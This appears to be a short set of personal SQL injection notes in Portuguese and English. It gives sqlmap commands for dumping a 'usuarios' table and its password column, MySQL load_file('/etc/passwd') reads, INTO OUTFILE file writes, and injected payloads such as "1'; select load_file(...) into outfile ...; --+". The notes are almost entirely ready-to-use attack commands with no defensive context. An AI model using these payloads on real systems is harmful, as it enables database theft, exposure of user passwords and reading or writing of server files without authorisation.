  
## Dumps específicos
 
	 sqlmap -r req.txt  --dbms=mysql --os=linux --tables -T usuarios -v --dump
 
 podemos utilizar o parâmetro -C para selecionar uma coluna específica também, a qual queremos verificar os dados:
 
	 sqlmap -r req.txt  --dbms=mysql --os=linux --tables -T usuarios -C password -v --dump


## Reading files with mysql

basic syntax

    select load_file('/etc/passwd')
    
## Writing files with sql injection

basic syntax

 - Mysql
 
        select load_file('/etc/passwd') into outfile '/root/teste_sqli2.txt';
        select vuln_id from vuln_details_table into outfile 'root/teste_sqli3.txt';
    
    
first try:
    
    1'; select load_file('/etc/passwd') in outfile '/home/osboxes/teste.txt'; --+ /* the 'in' directive is not correct */
    1'; select load_file('/etc/passwd') into outfile '/home/osboxes/teste.txt'; --+
    1' and select table_name, column_name, null from information_schema.columns;--+
 
